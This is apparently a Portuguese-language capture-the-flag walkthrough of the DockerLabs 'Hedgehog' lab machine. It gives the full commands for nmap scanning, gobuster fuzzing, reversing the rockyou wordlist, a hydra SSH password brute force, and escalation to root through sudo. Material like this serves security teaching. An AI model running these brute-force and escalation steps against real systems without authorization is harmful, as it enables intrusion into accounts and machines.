


maq.hedgehog
MÁQUINA HEDGEHOG

Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.

COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC -Pn -T5 -p-
Temos três portas abertas:
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.5
53/tcp filtered domain
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
Vamos navegar na porta 80: http://172.17.0.2/
Vamos fazer um fuzzing para ver se tem pastas ocultas, com a ferramenta gobuster.
gobuster dir -u http://172.17.0.2/-w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt,.php,.html,.py
Não temos nada de interessante.
Novamente vamos navegar na porta 80: http://172.17.0.2/
Veja que temos a palavra tail, ela é uma ferramenta do linux que permite ler as ultimas linhas de um arquivo.txt, sabendo dessa informação vamos usar a ferramenta tac para inverter a wordlists rockyou.txt, e depois usar a ferramenta sed para tirar os espaços da wordlists. E depois usar o hydra para fazer o ataque de força bruta no possivel usuário tails.
comando para inverter a wordlists rockyou.txt e criar uma outro arquivo rockyou_invertida.txt
tac rockyou.txt > rockyou_invertida.txt
sed -i 's/ //g' rockyou_invertida.txt
EXPLICAÇÃO DOS COMANDO:
Agora vamos fazer o ataque de força bruta com hydra:
hydra -l tails -P /usr/share/wordlists/rockyou_invertida.txt -t 4 ssh://172.17.0.2 -t 64
Vamos entrar no ssh do usuário tails:
ssh tails@172.17.0.2

Buscar por privilégios de root com sudo -l.
sudo -u sonic cat /etc/passwd
Com o comando abaixo vamos entra no usuário sonic.
sudo -u sonic /bin/bash
Os comando sudo -i ou sudo /bin/bash podemos ser root.
somos root
R10
PÓS EXPLORAÇÃO:

concluída